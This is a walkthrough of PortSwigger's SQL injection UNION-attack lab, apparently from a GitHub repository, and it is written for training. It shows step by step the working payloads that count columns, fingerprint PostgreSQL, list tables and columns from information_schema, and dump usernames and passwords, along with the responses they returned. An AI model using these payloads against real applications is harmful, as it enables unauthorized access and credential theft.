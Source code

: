 # PortSwigger SQLi Lab #5 Write-Up

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

## Lab: SQL injection UNION attack, retrieving data from other tables

In this lab, Burp Suite will be used to find the administrator login credentials to the vulnerable website. 

After loading the lab, enable the Burp Suite proxy. Then turn on the intercept in Burp Suite and load the "Gifts" section of the vulnerable website. Burp Suite will then intercept that packet so it can be sent to the Repeater.

Now, the innards of the database can be examined through the use of some payloads.



<br>
Each payload will be entered right after the "gifts" part of the URL, as the categories field is what is vulnerable in this lab.

<br>

> Don't forget to 'ctrl u' or 'command u' in order to URL encode each paylod.



<br>

# 
### **1. Determine the number of columns with the following iterative payload process.**



```SQL
' order by 1--
```
This resulted in a 200 response code, meaning there is at least 1 column (*obviously, heh*).

<br>

```SQL
' order by 2--
```
200 status code

<br>

```SQL
' order by 3--
```
500 Internal Server Error

Because this was solved iteratively, the amount of columns is: 3 - 1 = 2.

<br>

> **Number of Data Columns = 2**

<br>

#

### **2. Determine the data types of the columns.**

<br>
Since both columns of data on the website seem to be just text, the initial guess is that both columns are strings.

```SQL
' UNION select 'a', 'a'--
```
200 Status Code

Due to the 200 status code, both of the columns are strings. If there were an error, try different data types (1, 1.1, etc.) using 'NULL' as a place holder for the other column.

<br>

> **Both columns are strings.**

<br>

#

### **3. Find the the type and version of the database.**

Use the following link as a cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>

Microsoft Database Version Payload:
```SQL
' UNION SELECT @@version, NULL--
```
500 error, it is not a microsoft database.

<br> 

PostgreSQL Database Version Payload:
```SQL
' UNION SELECT version(), NULL--
```
200 status code; it is a postgreSQL database.

After looking into the 200 response, the version of the postgreSQL can be found.

```HTML
<th>
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on
x86_64-pc-linux-gnu, compiled by gcc 
(Ubuntu 9.4.0-1ubuntu1~20041) 9.4.0, 64-bit
</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

#

### **4. Now that the database type is known, find the table names within the database.**

Use the following from the cheat sheet to get info from postgreSQL databases.
```SQL
SELECT * FROM information_schema.tables
```
Instead of *, find the correct name by looking at postgreSQL's documentation. This can be found by googling "information_schema.tables postgreSQL".

In the following link the table names for postgreSQL are identified as 'table_name'.
https://www.postgresql.org/docs/current/infoschema-columns.html

<br>

Therefore, the two column payload is:
```SQL
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
200 status code

In the 200 response, 'users' can be identified as one of the table names. This can be searched in the bottom search bar in Burp Suite repeater to keep from having to look through the whole response.

```HTML
<th>
users
</th>    
```
<br>

> **Table name = users**

<br>

#

### **5. Find the column names of the table name 'users'.**

Using the portswigger cheat sheet, the payload will look something like this:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Instead of *, the postgreSQL website shows that the name of columns is column_name. 
```SQL
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--
```
200 status code

Two of the columns in the response are named 'password' and 'username'. 

<br>

> **Column Names = Username, Password**

<br>

#

### **6. Now that the table and columns are known, call them using a simple 'UNION select' injection.**

```SQL
' UNION select username, password FROM users--
```
200 status code

The final injection displays the administrator username and password in the response.

```HTML
<th>
administrator
</th>
    <td>
    787wo1nrar3t43x9pcko
    </td>
```

<br>

> **Username = administrator** 

> **Password = 787wo1nrar3t43x9pcko** 

<br>

#

### **7. Return to the login page of the vulnerable website and login with the administrator's username and password.**


<br>

### Congratulations! The lab has been solved!


